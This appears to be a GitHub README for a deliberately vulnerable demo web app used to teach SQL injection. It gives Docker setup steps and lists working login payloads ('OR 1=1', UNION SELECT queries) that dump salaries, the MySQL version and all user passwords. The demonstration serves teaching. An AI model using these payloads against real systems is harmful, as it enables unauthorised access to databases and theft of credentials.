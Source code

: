 # SQL-injection-demo
Demonstration of how a SQL injection works

# Project Summary

This is a simple web application that is vulnerable to SQL injection attacks.

All credits for this demonstration go to [startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll) repository created by [Thomas Laurenson](https://github.com/thomaslaurenson). Check out the project summary there for some more infromation on this project.

# Project instructions

Install the project requirements on your choice of operating system, including:

* Docker
* Docker Compose plugin

Run using either of the following:

* `make run`
* `docker compose up --build`

Open web browser and visit

* `localhost:8080`

Clean the docker Environment (after making changes):

* `make clean`
* or through Docker commands `rm` for created containers and `rmi` for created images

# Example Payloads

1. Normal login to get users salary
    
    * `username`: `james_kirk`
    * `password`: `kobayashi_maru`

2. Dump username and salary of all users:

    * `username`: `' OR 1=1#`
    * `password`: `anythingyouwant`
    
3. Dump MySQL version:

    * `username`: `' UNION SELECT null,@@version#`
    * `password`: `anythingyouwant`
    
4. Dump all users passwords:

    * `username`: `' UNION SELECT username,password FROM users#`
    * `password`: `anythingyouwant`